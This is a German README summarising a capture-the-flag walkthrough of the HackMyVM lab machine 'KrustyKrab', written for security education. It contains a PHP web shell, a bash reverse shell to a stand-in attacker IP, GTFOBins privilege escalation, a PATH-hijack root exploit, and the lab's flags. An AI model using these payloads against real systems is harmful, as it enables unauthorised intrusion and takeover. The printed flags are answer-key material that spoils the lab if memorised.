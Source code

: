# KrustyKrab - HackMyVM Lösungsweg

![KrustyKrab VM Icon](KrustyKrab.png)

Dieses Repository enthält einen Lösungsweg (Walkthrough) für die HackMyVM-Maschine "KrustyKrab".

## Details zur Maschine & zum Writeup

*   **VM-Name:** KrustyKrab
*   **VM-Autor:** DarkSpirit
*   **Plattform:** HackMyVM
*   **Schwierigkeitsgrad (laut Writeup):** Mittel (Medium)
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=KrustyKrab](https://hackmyvm.eu/machines/machine.php?vm=KrustyKrab)
*   **Autor des Writeups:** DarkSpirit
*   **Original-Link zum Writeup:** [https://alientec1908.github.io/KrustyKrab_HackMyVM/](https://alientec1908.github.io/KrustyKrab_HackMyVM/)
*   **Datum des Originalberichts:** 27. April 2025

## Verwendete Tools (Auswahl)

*   `arp-scan`
*   `nmap`
*   `curl`
*   `nikto`
*   `gobuster`
*   `wfuzz`
*   `vi/vim`
*   `grep`
*   `msfconsole` (für `ssh_enumusers`)
*   `hydra`
*   `python3` (insb. `requests`, `http.server`)
*   `ssh`
*   `exiftool`
*   `sudo`
*   `split` (Befehl)
*   `cat`
*   `find`
*   `at`
*   `wget`
*   `ghidra`
*   `strings`
*   `stegseek`
*   `xxd`
*   `md5sum`
*   `gcc`
*   Standard Linux-Befehle

## Zusammenfassung des Lösungswegs

Das Folgende ist eine gekürzte Version der Schritte, die unternommen wurden, um die Maschine zu kompromittieren, basierend auf dem bereitgestellten Writeup.

### 1. Reconnaissance (Aufklärung)

*   Die Ziel-IP `192.168.2.184` wurde mittels `arp-scan -l` identifiziert.
*   Ein `nmap`-Scan ergab offene Ports:
    *   **Port 22/tcp (SSH):** OpenSSH 9.2p1 Debian 2.
    *   **Port 80/tcp (HTTP):** Apache httpd 2.4.62 ((Debian)), Standard-Apache-Seite.
*   Der Hostname `krusty.hmv` wurde der IP `192.168.2.184` in der `/etc/hosts`-Datei des Angreifers zugeordnet.

### 2. Web Enumeration

*   Im Quelltext der Standard-Apache-Seite (`http://krusty.hmv/`) wurde ein HTML-Kommentar `` gefunden, der auf das Verzeichnis `/finexo/` hinwies.
*   `gobuster` auf `http://192.168.2.184/finexo/` fand:
    *   HTML-Seiten (`index.html`, `team.html`, etc.).
    *   PHP-Skripte: `login.php`, `test.php` (Status 500), `config.php` (Status 200, Size 0), `logout.php`.
    *   Verzeichnisse: `uploads/`, `dashboard/`, etc.
*   Auf der `team.html`-Seite wurden Benutzernamen enumeriert: `SpongeBob`, `PatrickStar`, `Squidward`, `Sandy`.
*   Der Versuch, SSH-Benutzer mit Metasploits `ssh_enumusers` zu enumerieren, schlug fehl (False Positives).
*   Ein SSH-Brute-Force-Angriff mit `hydra` wurde abgebrochen.

### 3. Initial Access als `spongebob` (auf `/finexo` Webanwendung)

1.  **Captcha-Umgehung und User Enumeration bei `login.php`:**
    *   Manuelle Tests auf `/finexo/login.php` zeigten unterschiedliche Fehlermeldungen für existierende ("Wrong Password" für `Spongebob`) und nicht existierende Benutzer ("User doesn't exit" für `sandy`).
    *   Der Captcha-Text konnte über einen separaten GET-Request (`?action=generateCaptcha`) bezogen werden.
2.  **Passwort-Brute-Force mit Python-Skript:**
    *   Ein Python-Skript wurde entwickelt, das die Captcha-Abfrage automatisierte und Passwörter für den Benutzer `Spongebob` testete.
    *   Das Passwort **`squarepants`** wurde für `Spongebob` gefunden.
3.  **Zugriff auf das Dashboard:**
    *   Mit `Spongebob:squarepants` wurde Zugriff auf `http://192.168.2.184/finexo/dashboard/` erlangt. Dort wurde ein Hinweis auf "Mantis" gefunden.
    *   SSH-Login als `spongebob` mit `squarepants` schlug fehl.

### 4. Proof of Concept (Webshell als `www-data`)

1.  **IDOR und Webshell-Upload (manipulierter Profil-Upload):**
    *   Über die Profilaktualisierungsfunktion (`/finexo/dashboard/update_profile.php`) konnte durch Manipulation des POST-Requests (mit Burp Suite) der Benutzerkontext auf `Administratro` geändert und gleichzeitig eine PHP-Webshell (`<?php system($_GET["cmd"]); ?>`) als `shell.php.jpg` hochgeladen werden. Das Passwort für `Administratro` wurde dabei auf `admin123` gesetzt.
2.  **RCE über Admin-Dashboard oder `test.php`:**
    *   Nach erfolgreichem Login als `Administratro:admin123` auf `/finexo/admin_dashborad/` (vermutlich `/finexo/admin_dashboard/`) wurde eine direkte Befehlseingabe-Funktion entdeckt.
    *   Alternativ (oder als ursprünglicher Plan) hätte die hochgeladene Shell über die verwundbare `test.php` (die einen `file`-Parameter akzeptiert, LFI-ähnlich) ausgeführt werden können: `test.php?file=uploads/SHELLNAME.jpg&cmd=id`.
3.  **Reverse Shell als `www-data`:**
    *   Über die Befehlseingabe im Admin-Dashboard wurde `nc` verwendet, um eine Bash-Reverse-Shell zum Angreifer aufzubauen:
        `/bin/bash -c 'bash -i >& /dev/tcp/ANGREIFER_IP/1234 0>&1'`
    *   Shell als `www-data` wurde erlangt.

### 5. Privilege Escalation

1.  **Von `www-data` zu `KrustyKrab`:**
    *   `sudo -l` als `www-data` zeigte: `(KrustyKrab) NOPASSWD: /usr/bin/split`.
    *   Mittels GTFOBins-Technik für `split` wurde eine Shell als `KrustyKrab` erlangt:
        `sudo -u KrustyKrab /usr/bin/split --filter=/bin/sh /dev/stdin`
2.  **Enumeration als `KrustyKrab`:**
    *   Im Home-Verzeichnis von `KrustyKrab` wurde `user.txt` gefunden und gelesen.
    *   In `config.php` der `/finexo`-Anwendung wurden MySQL-Zugangsdaten gefunden: `root:RootRootandRootyou` für die Datenbank `your_database`.
    *   Einloggen in MySQL bestätigte die Zugangsdaten und zeigte Klartext-Passwörter für Webanwendungs-Benutzer (`SpongeBob:admin`, `Administratro:admin123`).
    *   `sudo -l` als `KrustyKrab` zeigte: `(spongebob) NOPASSWD: /usr/bin/ttteeesssttt`.
3.  **Von `KrustyKrab` zu `spongebob`:**
    *   Das Binary `/usr/bin/ttteeesssttt` wurde heruntergeladen und mit Ghidra analysiert. Es stellte sich als ein Rätselspiel heraus, das bei korrekter Eingabe `system("/bin/bash -p");` ausführt.
    *   Die korrekte Eingabesequenz wurde durch Reverse Engineering der Logik und der internen Zutatenliste ermittelt.
    *   Durch Ausführen von `sudo -u spongebob /usr/bin/ttteeesssttt` und Eingabe der korrekten Sequenz wurde eine Shell als `spongebob` erlangt.
4.  **Enumeration als `spongebob`:**
    *   Die Mailbox `/var/mail/spongebob` enthielt Hinweise auf fehlgeschlagene `sudo`-Versuche von `spongebob`, einen Befehl `list` als `root` auszuführen.
    *   Im Home-Verzeichnis von `spongebob` wurden `key1` (enthielt `e1964798cfe86e914af895f8d0291812`) und `key2.jpeg` gefunden.
    *   `key2.jpeg` wurde heruntergeladen und analysiert (exiftool, stegseek – ohne direkten Erfolg).
    *   Die Kombination `echo -n "<Inhalt_key1><MD5_key2.jpeg>" | md5sum` ergab den Hash `7ac254848d6e4556b73398dde2e4ef82`.
5.  **Von `spongebob` zu `Squidward`:**
    *   Das Passwort für `Squidward` war der zuvor berechnete Hash (`7ac254848d6e4556b73398dde2e4ef82`). Mit `su Squidward` wurde der Benutzer gewechselt.
6.  **Von `Squidward` zu `root` (Path Hijacking):**
    *   Im Home-Verzeichnis von `Squidward` wurde das SUID-root-Binary `laststep` gefunden.
    *   Ghidra-Analyse von `laststep` zeigte, dass es `setuid(0); setgid(0); system("cat /etc/shadow");` ausführt.
    *   Ein bösartiges `cat`-Programm wurde erstellt (`#include <stdio.h> int main() { system("/bin/bash -p"); return 0; }`), kompiliert und auf das Zielsystem in ein von `Squidward` kontrollierbares Verzeichnis übertragen.
    *   Durch Setzen von `export PATH=.:$PATH` und Ausführen von `./laststep` wurde das bösartige `cat` anstelle von `/bin/cat` ausgeführt, was zu einer Root-Shell führte.

### 6. Flags

*   **User-Flag (`/home/KrustyKrab/user.txt`):**
    ```
    dcc8b0c111c9fa1522c7abfac8d1864b
    ```
*   **Root-Flag (`/root/root.txt`):**
    ```
    efe397e3897f0c19ef0150c2b69046a3
    ```

## Haftungsausschluss (Disclaimer)

Dieser Lösungsweg dient zu Bildungszwecken und zur Dokumentation der Lösung für die "KrustyKrab" HackMyVM-Maschine. Die Informationen sollten nur in ethischen und legalen Kontexten verwendet werden, wie z.B. bei CTFs und autorisierten Penetrationstests.
